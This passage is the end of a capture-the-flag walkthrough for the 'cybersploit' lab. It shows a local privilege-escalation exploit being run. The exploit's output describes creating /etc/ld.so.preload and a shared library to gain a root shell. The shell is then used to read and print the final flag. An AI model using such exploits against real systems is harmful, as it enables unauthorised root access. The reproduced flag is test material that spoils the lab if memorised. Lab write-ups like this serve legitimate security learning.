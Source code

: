 Executing the compiled exploit triggered the exploitation process, which involved spawning threads, mounting, and creating necessary files such as `/etc/ld.so.preload` and a shared library, ultimately granting us `root` access:

```bash
itsskv@cybersploit-CTF:/tmp$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# 
```
- `./exploit`: Executes the compiled exploit, triggering the privilege escalation process.

With `root` access achieved, we navigated to the `/root` directory to locate and read the final flag:

```bash
# cd /root
# ls
finalflag.txt
# cat finalflag.txt
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
# 
```

We successfully located the final flag (`flag3`) in the `/root` directory and extracted it, obtaining the message:

```
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}
```


By following these steps and understanding each command's purpose, you can gain valuable insights into the process of privilege escalation and exploit execution. Enjoy your exploration of cybersecurity!

